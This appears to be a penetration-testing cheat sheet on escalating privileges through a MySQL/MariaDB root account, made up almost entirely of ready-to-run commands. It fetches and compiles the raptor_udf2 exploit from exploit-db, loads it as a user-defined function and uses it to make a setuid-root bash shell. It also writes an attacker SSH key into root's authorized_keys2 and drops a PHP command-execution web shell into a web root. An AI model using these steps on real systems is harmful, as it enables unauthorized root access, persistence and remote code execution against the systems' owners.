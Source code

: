 ```yaml
---
title: "Mysql Privilege Escalation"
date: 2024-6-27
tags: ["mysql", "database", "RCE", "php", "UDF", "exploit", "pe"]
---
```


---
### Abuse #1: User Defined Function (UDF)

```bash
# Get the raptor_udf2.c
wget https://www.exploit-db.com/raw/1518 -O raptor_udf2.c
```

```bash
# Compile the source script
gcc -g -c raptor_udf2.c
```

```bash
gcc -g -shared -Wl,-soname,raptor_udf2.so -o raptor_udf2.so raptor_udf2.o -lc
```

```bash
# Copy to target folder
cp raptor_udf2.so /dev/shm/raptor_udf2.so
```

```bash
# Connect to database as root
mysql -u root -p<PASSWORD> mysql
```

```bash
# UDF
create table foo(line blob);
```

```bash
insert into foo values(load_file('/dev/shm/raptor_udf2.so'));
```

```bash
# Get plug-in directory
show variables like '%plugin%';
```

```bash
+-----------------+---------------------------------------------+
| Variable_name   | Value                                       |
+-----------------+---------------------------------------------+
| plugin_dir      | /usr/lib/x86_64-linux-gnu/mariadb19/plugin/ |
| plugin_maturity | gamma                                       |
+-----------------+---------------------------------------------+
```

```bash
# Copy the plugin_dir value
select * from foo into dumpfile '/usr/lib/x86_64-linux-gnu/mariadb19/plugin/raptor_udf2.so'; 
```

```bash
create function do_system returns integer soname 'raptor_udf2.so';
```

```bash
# RCE
select do_system('cp /bin/bash /tmp/shell; chmod 4777 /tmp/shell');
```

### Abuse #2: Add ssh public key to root

```bash
# Connect to database as root
mysql -u root -p<PASSWORD> mysql
```

```bash
# Check privilege
select current_user();
```

```bash
show grants for root@localhost;
```

```bash
# If mysql file write is not able to append or overwrite authorized_keys
select "ssh-ed25519 AAAAC4NzaC1lZDI1NTE8AAAAINAhYR5O6zwRnV147lX8FuuMLs7o+K5/WfaoYVa8SmbR user@computer" into outfile "/root/.ssh/authorized_keys2";
```

### Abuse #3: Create php File from Database to RCE

```mysql
create table test(stuff text);
```

```bash
insert into test values('<?php system($_REQUEST["cmd"]); ?>');
```

```bash
select * from test into dumpfile 'C:\\xampp\\htdocs\\cmd.php';
```

<br>